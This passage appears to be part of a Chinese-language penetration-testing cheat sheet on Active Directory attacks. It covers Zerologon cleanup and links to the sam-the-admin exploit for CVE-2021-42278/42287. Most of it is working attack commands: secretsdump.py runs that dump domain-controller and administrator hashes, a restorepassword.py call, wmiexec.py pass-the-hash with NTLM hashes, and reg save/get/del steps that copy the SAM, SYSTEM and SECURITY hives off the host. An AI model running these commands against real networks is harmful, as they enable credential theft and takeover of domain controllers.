 
secretsdump.py -no-pass cgdomain.com/'DC2008$'@10.211.55.200 -history -just-dc-user administrator-
secretsdump.py -no-pass cgdomain.com/administrator@10.211.55.200 -hashes aad3b435b51404eeaad3b435b51404ee:3add1560657a19b3166247eb3eb149ae-

[![img](https://image.cubox.pro/article/2022021014463059714/79052.jpg)](https://camo.githubusercontent.com/d94bd9f15fb2db6a2b99b7463de0674117fb227d731c7d0d8526ee66bb66961d/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67)

获取到旧的密码明文hex，还原

1-

python restorepassword.py cgdomain.com/DC2008@DC2008 -target-ip 10.211.55.200 -hexpass 59958639cbdd4523de5d42b01adb0e256e0d39aef14c8eef31f4c078862109f253bbb7b3817ab123d013856c028fa4993f5f5b9a830a3a98d87483b29df3fb55082a1f464b19220a2c04f6605d2d321a04afbb551f8f19a13d399f9f5af2aa23c5b76b49001033516fefd90cb0348256e8282b22cbf9e70d82a8b8d2916d578246e288af3af727533d36ad8950fe1c513771377d98a947c4a8eae2b581a74b6687a2e533b7e89e8d03c2e6c2123d519489869a6e33d3a8884be33107060b62e2852502261f48c097ddb68750cc55b7688cc951441cf02989a307f55c008e978edbaf31766d17b53505016c7580cb480b-

[![img](https://image.cubox.pro/article/2022021014463083448/24771.jpg)](https://camo.githubusercontent.com/206012e6d64974e4fda0704c8f1334e777a44f37f7b517e7d8776fbb79921e3f/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67)

恢复方法2

通过wmic, pass the hash 拿到域控制器中的本地管理员权限(域管)

1-

wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8adfc85c3490040e942ae1e6c68f645e test.local/Administrator@10.211.55.38-

然后分别执行,拷贝本机中SAM数据库到本地



\- reg save HKLM\\SYSTEM system.save-
\- reg save HKLM\\SAM sam.save-
\- reg save HKLM\\SECURITY security.save-
\- get system.save-
\- get sam.save-
\- get security.save-
\- del /f system.save-
\- del /f sam.save-
\- del /f security.save-

提取明文hash

1-

secretsdump.py -sam sam.save -system system.save -security security.save LOCAL-

然后恢复。

##### CVE-2021-42278 && CVE-2021-42287

[sam-the-admin](https://github.com/WazeHell/sam-the-admin)
